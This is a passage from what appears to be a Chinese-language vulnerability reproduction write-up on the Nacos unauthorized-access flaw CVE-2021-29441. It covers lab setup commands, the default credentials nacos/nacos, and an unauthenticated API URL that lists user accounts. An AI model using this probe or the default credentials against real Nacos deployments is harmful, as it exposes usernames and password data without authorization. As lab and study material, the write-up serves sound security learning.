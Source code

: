 开发者原意是用来处理一些服务端对服务端的请求。

但是由于配置的过于简单，并且将协商好的`user-agent`设置为`Nacos-Server`，直接硬编码在了代码里，导致了漏洞的出现。

并且利用这个未授权漏洞，攻击者可以**获取到用户名密码**等敏感信息。

## 漏洞复现

### 1.Nacos未授权访问CVE-2021-29441

#### 环境搭建

##### linux

```python
wget https://github.com/alibaba/nacos/releases/download/2.2.0/nacos-server-2.2.0.tar.gz
tar zxf nacos-server-2.2.0.tar.gz
cd nacos/bin
./startup.sh -m standalone
cat /root/nacos/logs/start.out
```

![image-20240926172003636](https://image.201068.xyz/assets/37.微服务/image-20240926172003636.png)

![image-20240926172040630](https://image.201068.xyz/assets/37.微服务/image-20240926172040630.png)

http://192.168.70.14:8848/nacos/index.html

![image-20240926172143028](https://image.201068.xyz/assets/37.微服务/image-20240926172143028.png)

> nacos / nacos

![image-20240926172344746](https://image.201068.xyz/assets/37.微服务/image-20240926172344746.png)

##### windows

https://github.com/alibaba/nacos/releases/download/2.2.0/nacos-server-2.2.0.zip

```python
startup.cmd -m standalone
```

#### 查看用户列表

http://192.168.70.14:8848/nacos/v1/auth/users?pageNo=1&pageSize=1&search=blur

![image-20240927092727079](https://image.201068.xyz/assets/37.微服务/image-20240927092727079.png)

#### 漏洞检测

直接访问如下链接

http://192.168.70.14:8848/nacos/v1/auth/users?pageNo=1&pageSize=1&search=blur

![image-20240927092733100](https://image.201068.xyz/assets/37.微服务/image-20240927092733100.png)
